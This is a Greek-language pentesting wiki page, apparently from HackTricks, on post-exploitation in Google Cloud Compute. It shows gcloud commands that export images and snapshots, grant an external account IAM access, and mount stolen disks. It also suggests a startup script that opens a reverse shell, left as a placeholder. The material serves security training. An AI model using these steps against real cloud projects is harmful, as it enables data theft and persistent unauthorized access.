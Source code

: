 # GCP - Compute Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Compute

Για περισσότερες πληροφορίες σχετικά με το Compute και το VPC (Δικτύωση) ελέγξτε:

{{#ref}}
../gcp-services/gcp-compute-instances-enum/
{{#endref}}

### Εξαγωγή & Επιθεώρηση Εικόνων τοπικά

Αυτό θα επέτρεπε σε έναν επιτιθέμενο να **πρόσβαση στα δεδομένα που περιέχονται σε ήδη υπάρχουσες εικόνες** ή **δημιουργία νέων εικόνων τρεχουσών VM** και πρόσβαση στα δεδομένα τους χωρίς να έχει πρόσβαση στην τρέχουσα VM.

Είναι δυνατόν να εξάγουμε μια εικόνα VM σε έναν κάδο και στη συνέχεια να την κατεβάσουμε και να την τοποθετήσουμε τοπικά με την εντολή:
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
Για να εκτελέσει αυτή την ενέργεια, ο επιτιθέμενος μπορεί να χρειαστεί δικαιώματα πάνω στον αποθηκευτικό κάδο και σίγουρα **δικαιώματα πάνω στο cloudbuild**, καθώς είναι η **υπηρεσία** που θα ζητηθεί να εκτελέσει την εξαγωγή.\
Επιπλέον, για να λειτουργήσει αυτό, ο SA του codebuild και ο SA του compute χρειάζονται προνομιακά δικαιώματα.\
Ο SA του cloudbuild `<project-id>@cloudbuild.gserviceaccount.com` χρειάζεται:

- roles/iam.serviceAccountTokenCreator
- roles/compute.admin
- roles/iam.serviceAccountUser

Και ο SA `<project-id>-compute@developer.gserviceaccount.com` χρειάζεται:

- roles/compute.storageAdmin
- roles/storage.objectAdmin

### Εξαγωγή & Επιθεώρηση Στιγμιότυπων & Δίσκων τοπικά

Δεν είναι δυνατόν να εξάγουμε άμεσα τα στιγμιότυπα και τους δίσκους, αλλά είναι δυνατόν να **μετατρέψουμε ένα στιγμιότυπο σε δίσκο, έναν δίσκο σε εικόνα** και ακολουθώντας την **προηγούμενη ενότητα**, να εξάγουμε αυτή την εικόνα για να την επιθεωρήσουμε τοπικά.
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
### Επιθεώρηση μιας Εικόνας δημιουργώντας μια VM

Με στόχο την πρόσβαση στα **δεδομένα που είναι αποθηκευμένα σε μια εικόνα** ή μέσα σε μια **τρέχουσα VM** από όπου ένας επιτιθέμενος **έχει δημιουργήσει μια εικόνα,** είναι δυνατόν να παραχωρηθεί πρόσβαση σε έναν εξωτερικό λογαριασμό πάνω στην εικόνα:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
και στη συνέχεια δημιουργήστε μια νέα VM από αυτό:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
Αν δεν μπορούσατε να δώσετε πρόσβαση στον εξωτερικό σας λογαριασμό μέσω της εικόνας, θα μπορούσατε να εκκινήσετε μια VM χρησιμοποιώντας αυτή την εικόνα στο έργο του θύματος και **να κάνετε τα μεταδεδομένα να εκτελέσουν ένα reverse shell** για να αποκτήσετε πρόσβαση στην εικόνα προσθέτοντας την παράμετρο:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Επιθεώρηση ενός Snapshot/Δίσκου συνδέοντάς το σε μια VM

Με στόχο την πρόσβαση στα **δεδομένα που είναι αποθηκευμένα σε έναν δίσκο ή ένα snapshot, θα μπορούσατε να μετατρέψετε το snapshot σε δίσκο, έναν δίσκο σε εικόνα και να ακολουθήσετε τα προηγούμενα βήματα.**

Ή θα μπορούσατε να **παρέχετε πρόσβαση σε έναν εξωτερικό λογαριασμό** πάνω στον δίσκο (αν το αρχικό σημείο είναι ένα snapshot, δώστε πρόσβαση στο snapshot ή δημιουργήστε έναν δίσκο από αυτό):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Συνδέστε τον δίσκο** σε μια παρουσίαση:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Μάουντ τον δίσκο μέσα στη VM:

1.  **SSH στη VM**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```

2.  **Εντοπίστε τον Δίσκο**: Μόλις μπείτε στη VM, εντοπίστε τον νέο δίσκο καταγράφοντας τις συσκευές δίσκου. Συνήθως, μπορείτε να τον βρείτε ως `/dev/sdb`, `/dev/sdc`, κ.λπ.
3.  **Μορφοποιήστε και Μάουντ τον Δίσκο** (αν είναι νέος ή raw δίσκος):

- Δημιουργήστε ένα σημείο μάουντ:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```

- Μάουντ τον δίσκο:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

Αν **δεν μπορείτε να δώσετε πρόσβαση σε ένα εξωτερικό έργο** στο snapshot ή δίσκο, ίσως χρειαστεί να **εκτελέσετε αυτές τις ενέργειες μέσα σε μια παρουσία στο ίδιο έργο με το snapshot/disk**.

{{#include ../../../banners/hacktricks-training.md}}

